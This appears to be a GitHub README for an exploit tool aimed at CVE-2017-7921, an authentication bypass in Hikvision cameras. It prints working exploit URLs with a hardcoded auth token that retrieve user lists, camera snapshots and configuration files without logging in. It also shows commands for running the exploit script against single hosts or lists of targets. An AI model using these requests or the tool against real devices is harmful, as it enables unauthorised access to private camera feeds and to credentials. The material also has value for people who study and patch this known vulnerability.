

# CVE-2017-7921 Exploit

An Improper Authentication issue was discovered in Hikvision  devices.

​    The improper authentication vulnerability occurs when an application does not adequately or correctly authenticate users.

​    This may allow a malicious user to escalate his or her privileges on the system and gain access to sensitive information.


​    https://seclists.org/fulldisclosure/2017/Sep/23


​    Vulnerability details:

​    \----------------------

​    Retrieve a list of all users and their roles:

​        http://camera.ip/Security/users?auth=YWRtaW46MTEK

​    Obtain a camera snapshot without authentication:

​        http://camera.ip/onvif-http/snapshot?auth=YWRtaW46MTEK

​    And worst of all, one can download camera configuration:

​        http://camera.ip/System/configurationFile?auth=YWRtaW46MTEK


## Install dependence

```python
python3 -m pip install -r requirements.txt
```

## Usage

```python3
python3 CVE_2017_7921_EXP.py -t xxx.xx.xx.xx run
python3 CVE_2017_7921_EXP.py -t ./targets.txt run
```

## Screenshot




